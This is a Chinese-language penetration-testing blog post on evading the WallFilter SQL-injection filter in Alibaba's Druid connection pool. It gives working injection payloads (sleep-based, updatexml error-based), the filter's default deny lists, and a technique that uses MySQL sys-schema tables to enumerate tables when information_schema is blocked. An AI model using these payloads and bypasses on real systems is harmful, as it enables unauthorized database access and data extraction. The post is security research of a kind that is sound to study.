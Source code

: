 ```yaml
---
title: Druid WallFilter 绕过浅析
date: 2023-03-09 15:50:00
categories: Pentest
tags: [SQL, Bypass]
---
```

## 简介
> 之前挖洞的时候遇到了一个 SQL 注入，测试时可以看到回显的 SQL 语句，但是一直被拦截，搜索了下发现是 WallFilter

WallFilter是阿里巴巴的[数据库连接池Druid](https://github.com/alibaba/druid)中一个特殊的 Filter，主要功能是用于监控SQL安全，并基于SQL语法进行分析，理解其中的 SQL 语义，然后作出智能准确的处理，从而避免 SQL 注入。

## 拦截1
首次尝试注入，Payload 如下：

```sql
desc,(select/**/*/**/from/**/(select(sleep(5)))a)#

```

抛出异常：`sql injection violation, comment not allow`

![Druid-WallFilter-0](assets/Druid-WallFilter-0.png)


原因是 WallFilter 的默认拦截策略是**不允许 SQL 中带有注释**，而这里的 Payload 明显含有注释，因此被拦截。参考：[alibaba/druid - WallFilter拦截规则](https://github.com/alibaba/druid/wiki/WallFilter-%E6%8B%A6%E6%88%AA%E8%A7%84%E5%88%99)

## 拦截2
再次尝试注入，修改后的 Payload 如下：

```sql
and(updatexml(1,concat(0x7e,(select database())),0));

and(updatexml(1,concat(0x7e,(select user())),0))

```

这次的报错为：`sql injection violation, syntax error`

![Druid-WallFilter-1](assets/Druid-WallFilter-1.png)

![Druid-WallFilter-2](assets/Druid-WallFilter-2.png)

原因是默认配置下，WallFilter 拦截了如下函数和关键字：

- [Druid拦截功能的配置与简单绕过](https://mp.weixin.qq.com/s/lGalf63VXCva2I5BpmSMgQ)
- [alibaba/druid/wall](https://github.com/alibaba/druid/tree/master/src/main/resources/META-INF/druid/wall)

```basic
deny-function:
  version
  load_file
  database
  schema
  user
  system_user
  session_user
  benchmark
  current_user
  sleep
  xmltype
  receive_message

deny-schema:
  information_schema
  mysql
  performance_schema    

deny-variant:
  basedir
  version_compile_os
  version
  datadir

```

## 其它查询
尝试查询其它的变量

```sql
SHOW GLOBAL VARIABLES;               # 查看全局变量
SHOW GLOBAL VARIABLES like '%xxx%';  # 模糊查询全局变量
SELECT @@global.变量名;               # 查看指定全局变量的值

SHOW VARIABLES;                      # 查看用户变量
SHOW VARIABLES like '%xxx%';         # 模糊查询用户变量
SELECT @@变量名;                      # 查看指定用户变量的值

```
这里查几个变量，发现可以成功查询，Payload如下：

```sql
and(updatexml(1,concat(0x7e,(select current_user)),0))
and(updatexml(1,concat(0x7e,(select @@plugin_dir)),0))

```

![Druid-WallFilter-3](assets/Druid-WallFilter-3.png)

![Druid-WallFilter-4](assets/Druid-WallFilter-4.png)

## 尝试绕过
前面得知禁用了`information_schema`，这里利用`MySQL5.6+`的`sys`系统库中的某些表来尝试绕过。

- [mysql注入绕过information_schema过滤](https://blog.csdn.net/m0_49835838/article/details/109159839)
- [SQL注入-查表查列](https://blog.csdn.net/soldi_er/article/details/116901009)
- [Bugku sql注入 基于布尔的SQL盲注](https://blog.csdn.net/plant1234/article/details/118033711)

```sql
mysql> use sys
mysql> show tables

# 默认sys库中，保存库名和表名的信息的表
sys.schema_table_statistics_with_buffer
sys.schema_index_statistics
sys.schema_table_statistics
sys.schema_auto_increment_columns 
sys.x$schema_index_statistics
sys.x$schema_table_statistics
sys.x$schema_table_statistics_with_buffer

# 示例查询,其中table_schema为库名, table_name为表名
mysql> select table_schema, table_name from sys.schema_table_statistics_with_buffer;

# 其它目前可记录的表
mysql> select * from sys.version;
mysql> select object_schema from sys.innodb_buffer_stats_by_schema;
mysql> select object_schema, object_name from sys.innodb_buffer_stats_by_table;

# MySQL默认存储引擎innoDB携带的表, 两表均有database_name和table_name字段
mysql.innodb_table_stats
mysql.innodb_index_stats


```
测试之后发现报错：`SELECT command denied ...`，原因是**当前用户权限不足**所导致。如果数据库当前用户为`root`或者其它具有对应权限的用户时，利用这个办法进行绕过是可行的

![Druid-WallFilter-5](assets/Druid-WallFilter-5.png)
